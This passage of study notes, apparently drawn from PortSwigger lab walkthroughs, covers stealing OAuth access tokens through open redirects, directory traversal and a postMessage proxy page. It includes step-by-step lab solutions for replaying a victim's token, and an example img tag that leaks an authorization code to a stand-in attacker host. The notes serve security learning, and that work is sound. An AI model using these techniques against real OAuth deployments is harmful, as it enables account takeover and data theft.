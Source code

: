 - Deliver the exploit to the victim, then copy their access token from the log.
- In Repeater, go to the `GET /me` request and replace the token in the `Authorization: Bearer` header with the one you just copied. 
	- Send the request. 
	- Observe that you have successfully made an API call to fetch the victim's data, including their API key.
- Use the "Submit solution" button at the top of the lab page to submit the stolen key and solve the lab



In addition to open redirects:
you should look for any other vulnerabilities that allow you to extract the code or token and send it to an external domain

Some good examples include:
- **Dangerous JS that handles query parameters and URL fragments**  
	- For example, insecure web messaging scripts can be great for this. 
	- In some scenarios:
		- you may have to identify a longer gadget chain that allows you to pass the token through a series of scripts before eventually leaking it to your external domain.
- **XSS vulnerabilities**  
	- Although XSS attacks can have a huge impact on their own:
		- there is typically a small time frame in which the attacker has access to the user's session before they close the tab or navigate away. 
	- As the `HTTPOnly` attribute is commonly used for session cookies:
		- an attacker will often also be unable to access them directly using XSS.
	- However, by stealing an OAuth code or token:
		- the attacker can gain access to the user's account in their own browser
	- This gives them much more time to explore the user's data and perform harmful actions, significantly increasing the severity of the XSS vulnerability.
- **HTML injection vulnerabilities**  
	- In cases where you cannot inject JavaScript: 
		- you may still be able to use a simple HTML injection to steal authorization codes.
	- If you can point the `redirect_uri` parameter to a page on which you can inject your own HTML content:
		- you might be able to leak the code via the `Referer` header. 
		- For example, consider the following `img` element: `<img src="evil-user.net">`:
			- When attempting to fetch this image:
				- some browsers (such as Firefox) will send the full URL in the `Referer` header of the request, including the query string

###### Stealing OAuth access tokens via a proxy page
- Study the OAuth flow while proxying traffic through Burp. Using the same method as in the [previous lab](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect), identify that the `redirect_uri` is vulnerable to [directory traversal](https://portswigger.net/web-security/file-path-traversal). This enables you to redirect access tokens to arbitrary pages on the blog website.
- Using Burp, audit the other pages on the blog website. Observe that the comment form is included as an `iframe` on each blog post. Look closer at the `/post/comment/comment-form` page in Burp and notice that it uses the `postMessage()` method to send the `window.location.href` property to its parent window. Crucially, it allows messages to be posted to any origin (`*`).
- From the proxy history, right-click on the `GET /auth?client_id=[...]` request and select "Copy URL". Go to the exploit server and create an `iframe` in which the `src` attribute is the URL you just copied. Use directory traversal to change the `redirect_uri` so that it points to the comment form. The result should look something like this:
    